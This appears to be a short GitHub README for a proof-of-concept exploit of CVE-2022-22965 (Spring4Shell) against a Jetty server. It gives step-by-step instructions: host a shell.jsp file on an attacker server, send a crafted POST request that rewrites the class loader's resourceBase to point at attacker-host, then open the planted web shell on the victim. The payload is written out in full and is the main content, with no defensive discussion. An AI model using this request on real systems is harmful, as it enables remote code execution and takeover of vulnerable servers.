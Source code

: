 # Poc-Spring4Shell-Jetty
Poc of CVE-2022-22965 (Spring4Shell) in Jetty serrver

1. Step 1
- Create a simple http server containing shell.jsp file in the hacker server
3. Step 2
- Send this payload to the victim server:
```
POST /exploit HTTP/1.1
Host: victim-host:8888
User-Agent: PetrusViet
Accept-Encoding: gzip, deflate 
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

class.module.classLoader.context.resourceBase=http://attacker-host:8000/&
```
4. Step 3
- Go to http://victim-host:8888/shell.jsp

